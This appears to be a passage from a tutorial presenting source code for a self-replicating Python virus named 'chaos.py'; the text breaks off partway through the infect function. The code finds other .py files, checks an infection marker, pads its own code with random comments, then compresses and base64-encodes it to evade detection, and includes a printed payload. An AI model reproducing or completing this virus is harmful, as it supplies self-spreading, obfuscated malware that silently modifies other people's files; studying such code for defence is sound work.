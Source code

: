 
The complete source code of our new virus could be similar to this:

```python
# ################
# chaos.py
# a Python virus
# ###############

# begin-78ea1850f48d1c1802f388db81698fd0

import base64
import glob
import hashlib
import inspect
import os
import random
import zlib

def get_content_of_file(file):
  data = None
    # return the content of a file
  with open(file, "r") as my_file:
    data = my_file.readlines()

  return data
  
def get_content_if_infectable(file, hash):
    # return the content of a file only if it hasn't been infected yet
  data = get_content_of_file(file)

  for line in data:
    if hash in line:
      return None

  return data

def obscure(data: bytes) -> bytes:
    # obscure a stream of bytes compressing it and encoding it in base64
    return base64.urlsafe_b64encode(zlib.compress(data, 9))

def transform_and_obscure_virus_code(virus_code):
    # transforms the virus code adding some randomic contents, compressing it and converting it in base64
  new_virus_code = []
  for line in virus_code:
    new_virus_code.append("# "+ str(random.randrange(1000000))+ "\n")
    new_virus_code.append(line + "\n")

  obscured_virus_code = obscure(bytes("".join(new_virus_code), 'utf-8'))
  return obscured_virus_code

def find_files_to_infect(directory = "."):
  # find other files that can potentially be infected 
  return [file for file in glob.glob("*.py")]

def summon_chaos():
  # the virus payload
  print("We are sick, fucked up and complicated\nWe are chaos, we can't be cured")

def infect(file, virus_code):
  # infect a single file. The routine open the file and if it's not been infected yet, infect the file with a custom version of the virus code
  hash = hashlib.md5(file.encode("utf-8")).hexdigest()

```